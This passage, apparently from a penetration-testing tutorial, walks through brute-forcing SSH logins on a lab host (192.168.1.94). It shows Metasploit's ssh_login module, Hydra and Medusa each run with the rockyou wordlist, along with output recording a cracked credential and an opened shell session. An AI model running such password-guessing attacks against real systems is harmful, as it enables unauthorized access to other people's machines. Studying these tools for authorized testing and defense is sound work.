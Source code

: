    STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/password/rockyou.txt
PASS_FILE => /usr/share/wordlists/password/rockyou.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.1.94
RHOSTS => 192.168.1.94
msf5 auxiliary(scanner/ssh/ssh_login) > set THREADS 10
THREADS => 10
msf5 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/ssh/ssh_login) > set username noraj
username => noraj
msf5 auxiliary(scanner/ssh/ssh_login) > run

[+] 192.168.1.94:22 - Success: 'noraj:noraj' ''
[*] Command shell session 1 opened (192.168.1.83:37291 -> 192.168.1.94:22) at 2020-01-02 21:33:33 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
Hydra
With Hydra:

$ hydra -l noraj -P /usr/share/wordlists/password/rockyou.txt -e s ssh://192.168.1.94
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-01-02 21:44:28
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.1.94:22/
[22][ssh] host: 192.168.1.94   login: noraj   password: noraj
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-01-02 21:44:33
Extract of the help message:

  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
  service   the service to crack (see below for supported protocols)
Medusa
With Medusa:

$ medusa -h 192.168.1.94 -u noraj -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
